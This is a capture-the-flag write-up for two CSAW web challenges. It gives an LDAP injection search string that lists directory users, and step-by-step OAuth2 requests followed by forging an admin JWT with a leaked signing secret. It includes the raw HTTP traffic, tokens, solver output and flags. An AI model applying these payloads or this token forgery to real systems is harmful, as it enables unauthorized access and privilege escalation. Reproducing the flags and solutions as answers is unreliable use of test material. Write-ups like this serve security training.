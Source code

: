 <a name="ldab"/>

# Ldab

Points : 50

Solved: **432 / 1448**

Tags: **Blind, Ldap injection**

Link: **http://web.chal.csaw.io:8080**

**How to solve ?**
- Search for list all of all users and groups 

**Solution**
1. Check for LDAP injection payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)
2. Request `http://web.chal.csaw.io:8080/index.php?search=*))(|(GivenName=*)(UID=*`
3. Flag `flag{ld4p_inj3ction_i5_a_th1ng}`

<a name="sso"/>

# SSO

Points: 100

Solved: **210 / 1448
How to solve ?**

Tags: **Blackbox, Oauth2, Signle Sign On, JWT token**

Link: **web.chal.csaw.io:9000**

**Steps to solve :**
- Use oauth 2.0 for authorization and authentication
- Get the secret to forge a valid JWT token and get the flag

**Solution :**
1. Get code authorization: `/oauth2/authorize`
 - response_type: `code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - state: `http://web.chal.csaw.io:9000/protected`
 - scopy: `http://web.chal.csaw.io:9000/protected`
 - client_id: `admin`
 - client_secret: `admin`

*Request*
```
POST /oauth2/authorize  HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

response_type=code&redirect_uri=http://web.chal.csaw.io:9000/protected&state=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&scope=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&client_id=admin&client_secret=admin
```
*Response*
```
http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&amp;state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected
```

2. Get token for authentication: `/oauth2/token`:
 - code: receive from request 1 
 - state: `http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected`
 - grant_type: `authorization_code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - client_secret: `admin`
 - client_id: `admin`

*Request*
```
POST /oauth2/token HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 411

code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected&grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_secret=ufoundme!&client_id=admin
```

*Response*
```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA2Mzg3MCwiZXhwIjoxNTM3MDY0NDcwfQ.4Vlaf8qsPoPyNNIX6CNVgn_w1zHbnVJEg5dJQZmMeGk"}
```

*Raw token*
```
{"alg":"HS256","typ":"JWT"}{"type":"user","secret":"ufoundme!","iat":1537063870,"exp":1537064470} + signature`
``` 

3. Crack signature JWT, change token 
 - Crack online on https://jwt.io/
![Crack JWT token](./resource_web/web-sso.png)

4. Get flag 

```
GET /protected HTTP/1.1
Host: web.chal.csaw.io:9000
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNjM4NzAsImV4cCI6MTUzNzA2NDQ3MH0.0nrhvscHLcDxopIVt6FzV8mn2KhGI4CbEMfOsrHvnJ0
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 369
```

5. Flag: `flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

6. Code python for solve challenge: [here](./scripts/sso.py)

```
$ Request to oauth2/authorize ...
> Code = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MTM2NTQ2LCJleHAiOjE1MzcxMzcxNDZ9.kV123Uzgg4H7i_DxNg6u6QCBiFP2y3sMFNzxZhXtrQw
$ Request to oauth2/token ...
> Token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzEzNjU0OCwiZXhwIjoxNTM3MTM3MTQ4fQ.inn4CGJOX4ID6kab4YdK70ZKqBwV0Be92s6dp2yAUvA
$ Crack signature and change data ...
> New token = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcxMzY1NDgsImV4cCI6MTUzNzEzNzE0OH0.60wi5F1gDUUqNLCKLPDAiENUBRJWhFEzE1xeFqc8RrQ
$ Request to /protected ...
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```
